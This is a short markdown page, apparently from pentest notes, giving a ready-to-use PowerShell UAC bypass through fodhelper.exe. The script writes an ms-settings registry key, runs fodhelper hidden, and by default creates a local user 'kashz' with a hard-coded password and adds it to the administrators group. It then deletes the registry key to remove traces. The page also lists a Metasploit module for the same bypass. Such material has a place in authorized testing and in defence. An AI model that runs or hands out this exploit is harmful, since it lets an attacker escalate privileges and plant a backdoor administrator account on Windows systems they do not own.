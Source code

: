 # fodhelper

Usage: `. .\FodhelperBypassUAC.ps1; FodhelperBypassUAC [-custom COMMAND]`

```bash
function FodhelperBypassUAC(){ 

Param (    
 [String]$custom = "cmd.exe /c net user kashz iamR00t123! /add && net localgroup administrators kashz /add" #default
      )
 
# Registry Additions
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $custom -Force
 
# Bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

# Cleanup
Start-Sleep 5
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
}
```

## msf

* `run exploit/windows/local/bypassuac_fodhelper`

## Reference

* [pentestlab.blog/uac-bypass-fodhelper/](https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/)
* [tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/)